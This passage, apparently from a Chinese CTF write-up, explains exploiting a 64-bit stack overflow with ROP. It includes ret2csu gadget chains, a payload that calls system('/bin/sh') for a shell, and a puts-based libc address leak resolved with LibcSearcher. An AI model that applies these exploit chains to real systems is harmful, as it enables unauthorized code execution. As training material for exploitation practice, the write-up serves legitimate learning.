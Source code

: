 ```
pop_6Address(rop1)	 			#6个pop后返回，如下：
0		 			#pop rbx
1		 			#pop rbp
readGOT	         			#pop r12
8		 			#pop r13
bssAddress	 			#pop r14
0		 			#pop r15
movAddress(rop2)	 		#mov rdx,r13	第三个参数rdx为8
		 			#mov rsi,r14	第二个参数rsi为bssAddress
					#mov edi,r15d	第一个参数rdi为0
					#call qword ptr [r12+rbx*8] <==> call readGOT(read(0,bssAddress,8))
\x00\x00\x00\x00\x00\x00\x00\x00
........
\x00\x00\x00\x00\x00\x00\x00\x00	#56个'\x00',填充7*8个字节到返回地址
startAddress				#返回地址
AAAAAAAA
........
AAAAAAAA 
AAAAAAAA		 		#为了凑够200个字节
```

**第三次payload(getshell)**:
```python
payload = "A" * 0x48 + p64(poprdiAddress) + p64(bssAddress) + p64(systemAddress) + p64(startAddress) 
payload = payload.ljust(200, "A")
io.send(payload)
```
其栈结构布局
```
AAAAAAAA
........
AAAAAAAA 
AAAAAAAA	 			#72字节数据区
pop_rdi_ret	 			#返回地址
writeAddress	 			#rdi=writeAddress(binsh_addr)
systemAddress	 			#system(writeAddress)
startAddress	 			#返回地址
AAAAAAAA
........
AAAAAAAA 
AAAAAAAA	 			#为了凑够200个字节，(200-72-4*8)字节的‘A’
```
方法二、根据writeup第二条参考分析而来

本方法利用put来泄露read函数的地址，然后再利用LibcSearcher查询可能的libc

(1)泄露read函数位于libc的地址
```python
payload = 'a'*0x48+p64(popedi)+p64(readgot)+p64(putaddr)+p64(mainaddr)+'a'*(0xC8-0x48-32)
```
上面的payload相当于
```
	push read_addr
	pop edi
	call puts
	call main
```
(2)利用libcSearcher搜索匹配到的可能的libc版本，从而获得system的地址和/bin/sh的地址
```python
	#libc数据库查询
	libc=LibcSearcher("read",read_addr)
	
	#得到libc加载地址
	libc_base=read_addr-libc.dump('read')
	
```